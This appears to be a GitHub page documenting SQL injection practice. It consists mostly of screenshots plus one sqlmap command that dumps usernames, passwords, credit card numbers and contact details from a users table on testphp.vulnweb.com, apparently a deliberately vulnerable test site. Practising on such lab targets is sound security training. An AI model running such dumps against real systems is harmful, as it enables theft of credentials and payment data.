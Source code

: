 <img width="583" height="239" alt="image" src="https://github.com/user-attachments/assets/7f36681a-4464-4807-914a-eedc1ae8408a" />

<img width="574" height="433" alt="image" src="https://github.com/user-attachments/assets/6fe1a66c-0fee-4492-a5a0-450f82506f8e" />

<img width="582" height="762" alt="image" src="https://github.com/user-attachments/assets/fc1471a3-a1ee-4d4f-8197-1702b1d9efa3" />

<img width="573" height="681" alt="image" src="https://github.com/user-attachments/assets/aabb5e75-7edb-4753-a473-0205b2376e41" />

<img width="584" height="515" alt="image" src="https://github.com/user-attachments/assets/60352817-768a-44e0-a411-658e8c428000" />

<img width="584" height="783" alt="image" src="https://github.com/user-attachments/assets/2c7d4bb3-bf63-4b3f-b27e-fbd38e3e4464" />

<img width="740" height="889" alt="image" src="https://github.com/user-attachments/assets/730fa2ea-86c1-4fc3-9d50-28125486ac3e" />

<img width="583" height="591" alt="image" src="https://github.com/user-attachments/assets/f8e91962-f04d-4032-b669-96ed68a4ae89" />

```
sqlmap -u 'http://testphp.vulnweb.com/listproducts.php?artist=1' -D acuart -T users -C address,cart,cc,email,name,pass,phone,uname --dump
```

<img width="591" height="712" alt="image" src="https://github.com/user-attachments/assets/1062ad94-bf86-4b4a-9b70-7f136bc51180" />

<img width="582" height="963" alt="image" src="https://github.com/user-attachments/assets/90ab340c-f799-48cf-96d7-8b6be122ce4c" />

